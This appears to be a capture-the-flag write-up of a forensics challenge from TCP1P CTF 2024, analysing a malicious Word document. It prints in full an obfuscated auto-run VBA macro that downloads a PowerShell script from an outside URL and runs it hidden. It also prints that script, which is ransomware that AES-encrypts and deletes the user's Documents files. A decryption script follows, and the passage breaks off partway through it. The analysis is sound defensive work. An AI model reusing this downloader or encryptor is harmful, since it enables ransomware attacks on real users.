


TCP1P CTF 2024 - Exploring Nusantara's Digital Realm.
The second edition of the international Capture The Flag (CTF) event organized by the TCP1P community.

## Sus [Forensics]

Description: `I received this file from my boss’s email, but when I opened it, suddenly all my files got encrypted and I got blackmailed :(((. At least please help me recover my files`

We are given a docm file, inside resides a VBA Macro. Using oletools to extract it.
```
PS C:\Users\vboxuser\Desktop > olevba.exe '.\Important Data.docm'
XLMMacroDeobfuscator: pywin32 is not installed (only is required if you want to use MS Excel)
olevba 0.60.1 on Python 3.10.11 - http://decalage.info/python/oletools
===============================================================================
FILE: .\Important Data.docm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: word/vbaProject.bin - OLE stream: 'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO Module1.bas
in file: word/vbaProject.bin - OLE stream: 'VBA/Module1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub AutoOpen()
    Dim bea2b19e869d906e19c2c5845ef99d624 As String
    Dim c1d374ac555d2f2500e5eba113b6d19df As String
    Dim b3d8f69e6a1e4e380a0b578412bb4728d As Object
    Dim e9a6a8866fc9657d77dc59f191d20178e As Object
    Dim fb6c5e53b78f831ff071400fd4987886a As Object
    Dim a6482a3f94854f5920ef720dbf7944d49 As String
    Dim a7eeee37ce4d5f1ce4d968ed8fdd9bcbb As String
    Dim a3e2b2a4914ae8d53ed6948f3f0d709b9 As String
    Dim a79e6d2cfe11f015751beca1f2ad01f35 As String
    Dim c19fe1eb6132de0cf2af80dcaf58865d3 As String
    Dim e71d80072ff5e54f8ede746c30dcd1d7a As String
    Dim f7182dd21d513b01e2797c451341280d0 As String

    a6482a3f94854f5920ef720dbf7944d49 = "https://gist.gith"
    a7eeee37ce4d5f1ce4d968ed8fdd9bcbb = "ubusercontent.co"
    a3e2b2a4914ae8d53ed6948f3f0d709b9 = "m/daffainfo/20a7b18ee31bd6a22acd1a90c1c7acb9"
    a79e6d2cfe11f015751beca1f2ad01f35 = "/raw/670f8d57403a02169d5e63e2f705bd4652781953/test.ps1"
    c19fe1eb6132de0cf2af80dcaf58865d3 = Environ("USERPROFILE")
    e71d80072ff5e54f8ede746c30dcd1d7a = "\Docum"
    f7182dd21d513b01e2797c451341280d0 = "ents\test.ps1"

    bea2b19e869d906e19c2c5845ef99d624 = a6482a3f94854f5920ef720dbf7944d49 & a7eeee37ce4d5f1ce4d968ed8fdd9bcbb & a3e2b2a4914ae8d53ed6948f3f0d709b9 & a79e6d2cfe11f015751beca1f2ad01f35
    c1d374ac555d2f2500e5eba113b6d19df = c19fe1eb6132de0cf2af80dcaf58865d3 & e71d80072ff5e54f8ede746c30dcd1d7a & f7182dd21d513b01e2797c451341280d0
    Set b3d8f69e6a1e4e380a0b578412bb4728d = CreateObject("MSXML2.XMLHTTP")
    b3d8f69e6a1e4e380a0b578412bb4728d.Open "GET", bea2b19e869d906e19c2c5845ef99d624, False
    b3d8f69e6a1e4e380a0b578412bb4728d.Send
    Set e9a6a8866fc9657d77dc59f191d20178e = CreateObject("ADODB.Stream")
    e9a6a8866fc9657d77dc59f191d20178e.Type = 1
    e9a6a8866fc9657d77dc59f191d20178e.Open
    e9a6a8866fc9657d77dc59f191d20178e.Write b3d8f69e6a1e4e380a0b578412bb4728d.responseBody
    e9a6a8866fc9657d77dc59f191d20178e.SaveToFile c1d374ac555d2f2500e5eba113b6d19df, 2
    e9a6a8866fc9657d77dc59f191d20178e.Close
    Set fb6c5e53b78f831ff071400fd4987886a = CreateObject("WScript.Shell")
    fb6c5e53b78f831ff071400fd4987886a.Run "powershell.exe -ExecutionPolicy Bypass -File """ & c1d374ac555d2f2500e5eba113b6d19df & """", 0, False
    Set b3d8f69e6a1e4e380a0b578412bb4728d = Nothing
    Set e9a6a8866fc9657d77dc59f191d20178e = Nothing
    Set fb6c5e53b78f831ff071400fd4987886a = Nothing
End Sub
<SNIP>
```
Looks obfuscated, but it's running a powershell script. Downloading it retrieves the following.
```powershell
function hLBKckxyHxqsbnKPcxuEltxXJgGMBEdtenTXDbrjJ {
  param (
        [byte[]]$fILecontEnt,
       [byte[]]$kEy,
  [byte[]]$iv
       )

   $wTxNPLpDKLd94wOiw4Ir9ecQJi8l7ym3AqKM2mVsyR7Sk5KD7sghlW3gm3oXNKd1Bws7xX82MZxhwERgFUw9C7YvJ5ffftPxo1p8kRQB1UZUQNiffkfdQqIEV0u1skAhCvTH6MglyDXo03BW = [sYstem.SeCurITy.CRYpTOgrapHy.aes]::Create()
  $wTxNPLpDKLd94wOiw4Ir9ecQJi8l7ym3AqKM2mVsyR7Sk5KD7sghlW3gm3oXNKd1Bws7xX82MZxhwERgFUw9C7YvJ5ffftPxo1p8kRQB1UZUQNiffkfdQqIEV0u1skAhCvTH6MglyDXo03BW.Mode = [SysTeM.secURitY.CrYPtOGrAPhy.CiPhermodE]::CBC
     $wTxNPLpDKLd94wOiw4Ir9ecQJi8l7ym3AqKM2mVsyR7Sk5KD7sghlW3gm3oXNKd1Bws7xX82MZxhwERgFUw9C7YvJ5ffftPxo1p8kRQB1UZUQNiffkfdQqIEV0u1skAhCvTH6MglyDXo03BW.Padding = [sySTEm.sEcuRITY.cRypTOGRAphY.PAdDINgMOdE]::PKCS7
 $wTxNPLpDKLd94wOiw4Ir9ecQJi8l7ym3AqKM2mVsyR7Sk5KD7sghlW3gm3oXNKd1Bws7xX82MZxhwERgFUw9C7YvJ5ffftPxo1p8kRQB1UZUQNiffkfdQqIEV0u1skAhCvTH6MglyDXo03BW.Key = $kEy
    $wTxNPLpDKLd94wOiw4Ir9ecQJi8l7ym3AqKM2mVsyR7Sk5KD7sghlW3gm3oXNKd1Bws7xX82MZxhwERgFUw9C7YvJ5ffftPxo1p8kRQB1UZUQNiffkfdQqIEV0u1skAhCvTH6MglyDXo03BW.IV = $iv

    $4ZpO3FrslYBfVuEShaxppH8Zf9HelBcL1FxNFaiAcjxYNwzBAHGKSqaaGPMNzUrSVlQoruGFnUvyoZ9C7r6E8WBNg8yYbyssax2zMD65rC6DieNrucmPbwiQ4nYJayTvj1I3ssiq5YAbBkoADqgpIDH6iOUh07Iq9e4ORYeVKveFRv5aHxPdC7nXSh7FnXhgtJSuu7eYGdAqz0I88GquEPxf58nMqDIZP9MQGOrdChcMf0zyA19TPGeNILQjC7eCeOPwiLvdy0DEfMMxOuFZx5Ou3PwEwwb9qzGOgr6SZUczRXgEYdwU0MJxLyFa5vaBSdFlL1goffcJ1VlRRC087j3LZOTT30I6MCN16Sw9CtUooJk45GknpBZhJCbKErCC0so2xzYaNjiAXiZe9A5xY7GNyS4Z4r5VZDTyZ1UleUYqvKkhe2yCkn33o7r58EzAHveKoZxPnbSZfTExpUjtheb6Ir22bCWOr2sOKcxuHD8RVfyMf2YZxQvtKZD3Ens7oijHO8r8RCXJdUYtfAqj2k7WPWXu4OZabgat88t9iw2ZxrlpKGLBUGG3oN3qfWLHCYJolp0HsQe3vCxjRRsSArsElUGVcil8yx8UEzds4SDSCPcKtwo3KPGOYq6VCu0i6BR4FyiFiC8GaZBwbaMg7gdEOGDorLZi9rWFBo8cCP7Z3NeWa1CS0FfmcCw9sMnH2GBzyUTwdyfgonyYv60lF2AZuw8oBZ23XoIVsF = $wTxNPLpDKLd94wOiw4Ir9ecQJi8l7ym3AqKM2mVsyR7Sk5KD7sghlW3gm3oXNKd1Bws7xX82MZxhwERgFUw9C7YvJ5ffftPxo1p8kRQB1UZUQNiffkfdQqIEV0u1skAhCvTH6MglyDXo03BW.CreateEncryptor()
   $DXXz8S7pnOuaDS9FGQAjFPedgyTLKRAo0VrSiEeapMS2KhDtpkl5pKgvcOWX2alqTTjzLGZdhlk89fvJSVnz60ULMAqbhqtk3RBNknNlTyVwsVfCHPscnLcJ1t5lnqWk5Fgavou4verArREYROVobRJheCuAIHadaRAWsLav9L9IvkjyrQRLWEZDeax8yiqLL2jq3XhgEZBiIwRcKVWEzzu1nKUPH4ZD8lLJMWaR9PeOkU4Is24EhvSaWiO9KDHsdqXjRdiVwg3lgeKpmrL6W1eujyZrgLZ2HxjZKQTICYQJDzusj5bEIDKCLjRSbw3p6Tgq2pDBSQ5kQ6DS6N2OKQYnzZ1qAA0lzftsg3b8FwM36shlBE0ToDeNrl4FkKDB6UQKxK1lcbO2tahobkh9XnUbKVvPKCzctMPuEmmKohLc6m3d5xo0Jk8Ge39tmNkO6W4CEg0t3LsTSyUlhFyUY8ePj1PEPEWMCxj8VW0CGAe7Z2jnJQdj431g5HEGtw32LBpxq4k85XtQ00UsOZTgg00HPGs4061TjREcskVs2IEZSgKwLW1SCyBa1FDfxiC1IH6PDrTKd2tLvfgWr1bgwqL5wlIWQQ64MgGxqhnaZq = $4ZpO3FrslYBfVuEShaxppH8Zf9HelBcL1FxNFaiAcjxYNwzBAHGKSqaaGPMNzUrSVlQoruGFnUvyoZ9C7r6E8WBNg8yYbyssax2zMD65rC6DieNrucmPbwiQ4nYJayTvj1I3ssiq5YAbBkoADqgpIDH6iOUh07Iq9e4ORYeVKveFRv5aHxPdC7nXSh7FnXhgtJSuu7eYGdAqz0I88GquEPxf58nMqDIZP9MQGOrdChcMf0zyA19TPGeNILQjC7eCeOPwiLvdy0DEfMMxOuFZx5Ou3PwEwwb9qzGOgr6SZUczRXgEYdwU0MJxLyFa5vaBSdFlL1goffcJ1VlRRC087j3LZOTT30I6MCN16Sw9CtUooJk45GknpBZhJCbKErCC0so2xzYaNjiAXiZe9A5xY7GNyS4Z4r5VZDTyZ1UleUYqvKkhe2yCkn33o7r58EzAHveKoZxPnbSZfTExpUjtheb6Ir22bCWOr2sOKcxuHD8RVfyMf2YZxQvtKZD3Ens7oijHO8r8RCXJdUYtfAqj2k7WPWXu4OZabgat88t9iw2ZxrlpKGLBUGG3oN3qfWLHCYJolp0HsQe3vCxjRRsSArsElUGVcil8yx8UEzds4SDSCPcKtwo3KPGOYq6VCu0i6BR4FyiFiC8GaZBwbaMg7gdEOGDorLZi9rWFBo8cCP7Z3NeWa1CS0FfmcCw9sMnH2GBzyUTwdyfgonyYv60lF2AZuw8oBZ23XoIVsF.TransformFinalBlock($fILecontEnt, 0, $fILecontEnt.Length)

       $wTxNPLpDKLd94wOiw4Ir9ecQJi8l7ym3AqKM2mVsyR7Sk5KD7sghlW3gm3oXNKd1Bws7xX82MZxhwERgFUw9C7YvJ5ffftPxo1p8kRQB1UZUQNiffkfdQqIEV0u1skAhCvTH6MglyDXo03BW.Dispose()
 return $DXXz8S7pnOuaDS9FGQAjFPedgyTLKRAo0VrSiEeapMS2KhDtpkl5pKgvcOWX2alqTTjzLGZdhlk89fvJSVnz60ULMAqbhqtk3RBNknNlTyVwsVfCHPscnLcJ1t5lnqWk5Fgavou4verArREYROVobRJheCuAIHadaRAWsLav9L9IvkjyrQRLWEZDeax8yiqLL2jq3XhgEZBiIwRcKVWEzzu1nKUPH4ZD8lLJMWaR9PeOkU4Is24EhvSaWiO9KDHsdqXjRdiVwg3lgeKpmrL6W1eujyZrgLZ2HxjZKQTICYQJDzusj5bEIDKCLjRSbw3p6Tgq2pDBSQ5kQ6DS6N2OKQYnzZ1qAA0lzftsg3b8FwM36shlBE0ToDeNrl4FkKDB6UQKxK1lcbO2tahobkh9XnUbKVvPKCzctMPuEmmKohLc6m3d5xo0Jk8Ge39tmNkO6W4CEg0t3LsTSyUlhFyUY8ePj1PEPEWMCxj8VW0CGAe7Z2jnJQdj431g5HEGtw32LBpxq4k85XtQ00UsOZTgg00HPGs4061TjREcskVs2IEZSgKwLW1SCyBa1FDfxiC1IH6PDrTKd2tLvfgWr1bgwqL5wlIWQQ64MgGxqhnaZq
}

function WcxUfvPWkvdEVTxpneCnitDtrlZHcKcSeHVCeaEp {
  param (
[string]$fOlDErPATH,
       [byte[]]$kEy,
   [byte[]]$iv
  )

        $ruwyDTHxzj2yBGWIPwvbLpJnNrJOcjfEwbNAYo22RfjY5OoHUzHkddzfFgxti8eorqWgjcyHAnQ9UmDQBRPOd4FAnE9NSX2291RTqvXgJqElPncuBwkR00iFiJV56fvqTRf4KGpxC1gu8xZOcSUgl52IOnbtkxSwsKuyFL0cg3eKixJwUPFzrVBxQGxBVl9XLg1yJvzLhKLPdxoHx0CJSoIkb32GMwmEocab0TKn2OW4q5wlQYwcuuPoT6HNSMjm8l9Xtrw9HtKNXgwkgF1v4pl4Gl6TKC23qONwmpb0dpgA6PuHfZNGEdvLeVepSB6Uk1xIcEZupXGNBoh1RAxpU8fyFzdz2wR1wjJ2WfQYzglkldSkJ91bTq4Lw3ryqLbD8dvSAEbHtFvMMlj2UWOOUz1izDA3ClSHG8HDKBU9fwmWWTJ9Vkttn0kXN4TidTGWXsMQzEmhWaejsrx3tuaJOkjTbakAr3FM8hKYwZa0B9l4XzCcjNS1VjI0vYce6P9grcrwVzC4stLz03haaD7zCNYpfI4dR2vZwhxWUCSX6ENCL5gSKQ9oiSTKdAxFeENgvijkVywmepxoZvnY7foTVyn577oJou7hO5l0f5lmVSCPDRtGDb37XPMWFwTbiQZYcO3538aMKGXs7ssxSGD6tXM0VTF7zfuup2PlqmJt8ynIvtNhasiFVqjEUDliWUnaQhShdfvO6ZenHvTAVwPlHD47VvNKWTfUku6rr04Hfh9MB16vQp3OYDc5of0FsCE58gMo3QQOIUYjgyKjQ229o2jxleSJifhoKd4sYvwVz27xU3lQWrhFvi5ig4MZgDB0HiXFkjwWRI17ePVUZ91uyNmHNOgp5HLtnSKT3oS64fbThuZmndmxiQfECivujcSKXROqdxdvMd52ZLWafN7C9mc6TGHe6xrMYAx4AwQDi2g7Us = Get-ChildItem -Path $fOlDErPATH -File
  foreach ($fILE in $ruwyDTHxzj2yBGWIPwvbLpJnNrJOcjfEwbNAYo22RfjY5OoHUzHkddzfFgxti8eorqWgjcyHAnQ9UmDQBRPOd4FAnE9NSX2291RTqvXgJqElPncuBwkR00iFiJV56fvqTRf4KGpxC1gu8xZOcSUgl52IOnbtkxSwsKuyFL0cg3eKixJwUPFzrVBxQGxBVl9XLg1yJvzLhKLPdxoHx0CJSoIkb32GMwmEocab0TKn2OW4q5wlQYwcuuPoT6HNSMjm8l9Xtrw9HtKNXgwkgF1v4pl4Gl6TKC23qONwmpb0dpgA6PuHfZNGEdvLeVepSB6Uk1xIcEZupXGNBoh1RAxpU8fyFzdz2wR1wjJ2WfQYzglkldSkJ91bTq4Lw3ryqLbD8dvSAEbHtFvMMlj2UWOOUz1izDA3ClSHG8HDKBU9fwmWWTJ9Vkttn0kXN4TidTGWXsMQzEmhWaejsrx3tuaJOkjTbakAr3FM8hKYwZa0B9l4XzCcjNS1VjI0vYce6P9grcrwVzC4stLz03haaD7zCNYpfI4dR2vZwhxWUCSX6ENCL5gSKQ9oiSTKdAxFeENgvijkVywmepxoZvnY7foTVyn577oJou7hO5l0f5lmVSCPDRtGDb37XPMWFwTbiQZYcO3538aMKGXs7ssxSGD6tXM0VTF7zfuup2PlqmJt8ynIvtNhasiFVqjEUDliWUnaQhShdfvO6ZenHvTAVwPlHD47VvNKWTfUku6rr04Hfh9MB16vQp3OYDc5of0FsCE58gMo3QQOIUYjgyKjQ229o2jxleSJifhoKd4sYvwVz27xU3lQWrhFvi5ig4MZgDB0HiXFkjwWRI17ePVUZ91uyNmHNOgp5HLtnSKT3oS64fbThuZmndmxiQfECivujcSKXROqdxdvMd52ZLWafN7C9mc6TGHe6xrMYAx4AwQDi2g7Us) {
   $fILEcontenT = [sysTeM.iO.fILe]::ReadAllBytes($fILE.FullName)
    $tgLjoPhM5puXcpTyAOIdjMb6OG9958nEI5Lx5piyjqm8M0abTMc1nCOYEEIBEjPOa0zajfg9Mgz5u87NGwOB32Ddo6VSkdMYnooOLzQtvUfpyFts8DKDo8BR1o2WBtMcwbPHS1t0nh8Bls9GxSVzE3stsmuQLDDgsI3BNJUe9DHX7iqnbGW5dtIOdCOyHQNBArVmCP3ylp2IWfLgDg9FUGtbXLkfSyNFHRkBK7b3HcKiYrXGBeAUbRW2E2PzfUElFGGPuJoBothFXCg6DPMlujc8OUPXpf5G6doRsDCChq94RHkYwluiczWsVpaiaxdHw3FG4xwsmtqSvclHZwN4Zuz4fTGTdlwcnWw402QytPUmChOTzIymO3fYcHTbxRnewQLgl6ekCrcJAtfNFiG2Qluxhd8wVFTUcgYR2Bhjscovwq3T6CxwehUZbdcrUJCcOJmlNmr2kHU5rBJDDM0DZ9iO9w5MtRTeS0LqMb2Phzztrr1u6uLa6nhdcxIapxAXXgM9CzTEcaDrxKAb8dqft83oD0TVhVuc3V0ChuTuOveivUWldgB0QqlDX02Lw2IVr2IMz0vA867As4KaA4RI2su7jQwsmw = hLBKckxyHxqsbnKPcxuEltxXJgGMBEdtenTXDbrjJ -FileContent $fILEcontenT -Key $kEy -IV $iv
 $S9uNiOu8MdsYWgx5NirCL84sYs3Y2bSQyyFDeSPfRvryc5qOATTztuCQlynrBn2ebciJeqTohssNMewKE7sYUvUhLnco9khiZk4TMbhPg2rWgyMB3d4ZnGY3r5Y0iVGh6RZ4u4GRbfCQRp4H2LZ85o6e4GvBILwEZGMcSycGTUcsUSHU9kMGdVqQIisI4GSQf2k1yEXpBFbOsT3cWX1VFVWYBkxv0Emxi5BUDo = $fILE.FullName + ("{0}{2}{1}" -f '.','nc','e')
     [sysTeM.iO.fILe]::WriteAllBytes($S9uNiOu8MdsYWgx5NirCL84sYs3Y2bSQyyFDeSPfRvryc5qOATTztuCQlynrBn2ebciJeqTohssNMewKE7sYUvUhLnco9khiZk4TMbhPg2rWgyMB3d4ZnGY3r5Y0iVGh6RZ4u4GRbfCQRp4H2LZ85o6e4GvBILwEZGMcSycGTUcsUSHU9kMGdVqQIisI4GSQf2k1yEXpBFbOsT3cWX1VFVWYBkxv0Emxi5BUDo, $tgLjoPhM5puXcpTyAOIdjMb6OG9958nEI5Lx5piyjqm8M0abTMc1nCOYEEIBEjPOa0zajfg9Mgz5u87NGwOB32Ddo6VSkdMYnooOLzQtvUfpyFts8DKDo8BR1o2WBtMcwbPHS1t0nh8Bls9GxSVzE3stsmuQLDDgsI3BNJUe9DHX7iqnbGW5dtIOdCOyHQNBArVmCP3ylp2IWfLgDg9FUGtbXLkfSyNFHRkBK7b3HcKiYrXGBeAUbRW2E2PzfUElFGGPuJoBothFXCg6DPMlujc8OUPXpf5G6doRsDCChq94RHkYwluiczWsVpaiaxdHw3FG4xwsmtqSvclHZwN4Zuz4fTGTdlwcnWw402QytPUmChOTzIymO3fYcHTbxRnewQLgl6ekCrcJAtfNFiG2Qluxhd8wVFTUcgYR2Bhjscovwq3T6CxwehUZbdcrUJCcOJmlNmr2kHU5rBJDDM0DZ9iO9w5MtRTeS0LqMb2Phzztrr1u6uLa6nhdcxIapxAXXgM9CzTEcaDrxKAb8dqft83oD0TVhVuc3V0ChuTuOveivUWldgB0QqlDX02Lw2IVr2IMz0vA867As4KaA4RI2su7jQwsmw)
   Remove-Item $fILE.FullName
}
}

$kNTZHxWPKrOOROlpTvAyhuwGsegbxRPP0YBomB1ACpvkVBTc18Emj8lEGi4sPSA6xtLD0ToTaHcJF0m5Z2NKzjiF6DRdlVAfxFPFeYQ0Hhv8gjVDzPpH190fAesz = ("{4}{2}{9}{0}{7}{1}{5}{8}{3}{6}" -f '9PPHYu', 'VO2/HR', 'iu0qar', 'DBAUGB','K34VFi',  'pVrif', 'wgJCgsMDQ4P', 'e/KNLM','ikAAQI' , '9xWICc')
$kGWOOSVtqfxVCoXZVTCBu3nsOb2lJzP4Hb2ISBI8ZusTErhwdoCItM1qz8pP1ueeLscgyiPbBsOpoF3qVGWEwRlZ33XUT16TKhGlgCQwExeJMw2fCff3EymlFljE0SuJBoN71zIFwBezXGpARrAUI84Jro369CbPdJhI3Q3QwzyDYrgKvdpdxkprOuUvNvOqxTX3vaH0MVfDWAHCqQd6vKeZxYDqwfxJkgHdha7TFUiVSN58Ch0cClxDdnhBH37DSdPr335m8FY8u08bwcJeIOaWWKcQtl19vowhiYPjJ0NIV32TXOoeZja6AZuGM1cXygCGyg0DXXfaiDyYfJjPaypFlqaD3fg3fi0dtYRGVqQ0iZ2Owynmp8XlUZMko8IgNjd9hGgmf510SjFueala5ZSeeOEqb3PG85AGMQlbto6JDO2IsAOjjP0S4R7ZeEcGumWwLdUbAlMh8qELHrKv4CqsCa9ufRHX7ZYDmwPu2wux63xBjwJ4BiJZvEzKxfAvaXyhAteq2N1K7iEKsXsNbSGn1VidtvkO3gQw1qKN9yCY6DwrCD5MLiNIMV6USgZa3sya5zqN194ckT3VHwd3UK9HeZokwtgkR9hwWUdaaRZrT91qJg4G2hwxDouu35mZjQrgsRvrEehwsoDmFHSNCjNIAzfFC8RGUyB2qSpJc3PRNFwvwJ9eCB7BjaGHxhweJFqF3gP8NtgnH5kVs3TiO7Qld5Zis8t38McSeDcZVXDLRP7nK9mRePyrW4IdhktDg1bpsbhMTUgsacD4Sb6GCnABIwzrjvzltuSPKNsruF3qebC67YyYk7I8Ei3vuU94oexSvkxcxV0KNC41s7uq9mY0zVhAMuNl7Vbej1taJoOYhZfeK6D32VcfSDZFbmDBi57tR6SnIzyLnnWfEwS6Yv0RVwR7gGHX0brNL1U8IuG4Ya7nLbgqViwR2mgwambCdQUPOnNMWqBmJcNaYCl = [SYStEM.COnVERt]::FromBase64String($kNTZHxWPKrOOROlpTvAyhuwGsegbxRPP0YBomB1ACpvkVBTc18Emj8lEGi4sPSA6xtLD0ToTaHcJF0m5Z2NKzjiF6DRdlVAfxFPFeYQ0Hhv8gjVDzPpH190fAesz)

$kEy = $kGWOOSVtqfxVCoXZVTCBu3nsOb2lJzP4Hb2ISBI8ZusTErhwdoCItM1qz8pP1ueeLscgyiPbBsOpoF3qVGWEwRlZ33XUT16TKhGlgCQwExeJMw2fCff3EymlFljE0SuJBoN71zIFwBezXGpARrAUI84Jro369CbPdJhI3Q3QwzyDYrgKvdpdxkprOuUvNvOqxTX3vaH0MVfDWAHCqQd6vKeZxYDqwfxJkgHdha7TFUiVSN58Ch0cClxDdnhBH37DSdPr335m8FY8u08bwcJeIOaWWKcQtl19vowhiYPjJ0NIV32TXOoeZja6AZuGM1cXygCGyg0DXXfaiDyYfJjPaypFlqaD3fg3fi0dtYRGVqQ0iZ2Owynmp8XlUZMko8IgNjd9hGgmf510SjFueala5ZSeeOEqb3PG85AGMQlbto6JDO2IsAOjjP0S4R7ZeEcGumWwLdUbAlMh8qELHrKv4CqsCa9ufRHX7ZYDmwPu2wux63xBjwJ4BiJZvEzKxfAvaXyhAteq2N1K7iEKsXsNbSGn1VidtvkO3gQw1qKN9yCY6DwrCD5MLiNIMV6USgZa3sya5zqN194ckT3VHwd3UK9HeZokwtgkR9hwWUdaaRZrT91qJg4G2hwxDouu35mZjQrgsRvrEehwsoDmFHSNCjNIAzfFC8RGUyB2qSpJc3PRNFwvwJ9eCB7BjaGHxhweJFqF3gP8NtgnH5kVs3TiO7Qld5Zis8t38McSeDcZVXDLRP7nK9mRePyrW4IdhktDg1bpsbhMTUgsacD4Sb6GCnABIwzrjvzltuSPKNsruF3qebC67YyYk7I8Ei3vuU94oexSvkxcxV0KNC41s7uq9mY0zVhAMuNl7Vbej1taJoOYhZfeK6D32VcfSDZFbmDBi57tR6SnIzyLnnWfEwS6Yv0RVwR7gGHX0brNL1U8IuG4Ya7nLbgqViwR2mgwambCdQUPOnNMWqBmJcNaYCl[0..31]

$iv = $kGWOOSVtqfxVCoXZVTCBu3nsOb2lJzP4Hb2ISBI8ZusTErhwdoCItM1qz8pP1ueeLscgyiPbBsOpoF3qVGWEwRlZ33XUT16TKhGlgCQwExeJMw2fCff3EymlFljE0SuJBoN71zIFwBezXGpARrAUI84Jro369CbPdJhI3Q3QwzyDYrgKvdpdxkprOuUvNvOqxTX3vaH0MVfDWAHCqQd6vKeZxYDqwfxJkgHdha7TFUiVSN58Ch0cClxDdnhBH37DSdPr335m8FY8u08bwcJeIOaWWKcQtl19vowhiYPjJ0NIV32TXOoeZja6AZuGM1cXygCGyg0DXXfaiDyYfJjPaypFlqaD3fg3fi0dtYRGVqQ0iZ2Owynmp8XlUZMko8IgNjd9hGgmf510SjFueala5ZSeeOEqb3PG85AGMQlbto6JDO2IsAOjjP0S4R7ZeEcGumWwLdUbAlMh8qELHrKv4CqsCa9ufRHX7ZYDmwPu2wux63xBjwJ4BiJZvEzKxfAvaXyhAteq2N1K7iEKsXsNbSGn1VidtvkO3gQw1qKN9yCY6DwrCD5MLiNIMV6USgZa3sya5zqN194ckT3VHwd3UK9HeZokwtgkR9hwWUdaaRZrT91qJg4G2hwxDouu35mZjQrgsRvrEehwsoDmFHSNCjNIAzfFC8RGUyB2qSpJc3PRNFwvwJ9eCB7BjaGHxhweJFqF3gP8NtgnH5kVs3TiO7Qld5Zis8t38McSeDcZVXDLRP7nK9mRePyrW4IdhktDg1bpsbhMTUgsacD4Sb6GCnABIwzrjvzltuSPKNsruF3qebC67YyYk7I8Ei3vuU94oexSvkxcxV0KNC41s7uq9mY0zVhAMuNl7Vbej1taJoOYhZfeK6D32VcfSDZFbmDBi57tR6SnIzyLnnWfEwS6Yv0RVwR7gGHX0brNL1U8IuG4Ya7nLbgqViwR2mgwambCdQUPOnNMWqBmJcNaYCl[32..47]

$fOlDErPATH = ("$enV:USERPROFILE{4}{0}{3}" -F'umen','\Wo', 'i', 'ts', '\Doc')

WcxUfvPWkvdEVTxpneCnitDtrlZHcKcSeHVCeaEp -FolderPath $fOlDErPATH -Key $kEy -IV $iv
```
Again an obfuscated payload but it's clear what it does, it encrypts several files using AES schema, the following powershell script was used to decrypt both of the text file and the zip file.
```powershell
function hLBKckxyHxqsbnKPcxuEltxXJgGMBEdtenTXDbrjJ {
    param (
        [byte[]]$fILecontEnt,
        [byte[]]$kEy,
        [byte[]]$iv
    )

    $aesObject = [System.Security.Cryptography.Aes]::Create()
    $aesObject.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesObject.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aesObject.Key = $kEy
    $aesObject.IV = $iv

    $decryptor = $aesObject.CreateDecryptor()
    $decryptedContent = $decryptor.TransformFinalBlock($fILecontEnt, 0, $fILecontEnt.Length)
    $aesObject.Dispose()

    return $decryptedContent
}

# Base64-encoded key and IV from the original script
$keyB64 = "K34VFiiu0qar9xWICc9PPHYue/KNLMVO2/HRpVrifikAAQIDBAUGBwgJCgsMDQ4P"
$keyBytes = [System.Convert]::FromBase64String($keyB64)

# The key is the first 32 bytes, and the IV is the next 16 bytes
$key = $keyBytes[0..31]
$iv = $keyBytes[32..47]

# Decrypt the txt file content
$filePath = "C:\Users\vboxuser\Desktop\password.txt.enc"
$fILecontEnt = [System.IO.File]::ReadAllBytes($filePath)

$decryptedContent = hLBKckxyHxqsbnKPcxuEltxXJgGMBEdtenTXDbrjJ -fILecontEnt $fILecontEnt -kEy $key -iv $iv

# Try to interpret decrypted content as text
$decryptedText = [System.Text.Encoding]::UTF8.GetString($decryptedContent)

Write-Host "Decrypted content (UTF-8):"
Write-Host $decryptedText

# Decrypt the zip file content
$filePath = "C:\Users\vboxuser\Desktop\flag.zip.enc"  # Path to the encrypted .zip file
$fILecontEnt = [System.IO.File]::ReadAllBytes($filePath)

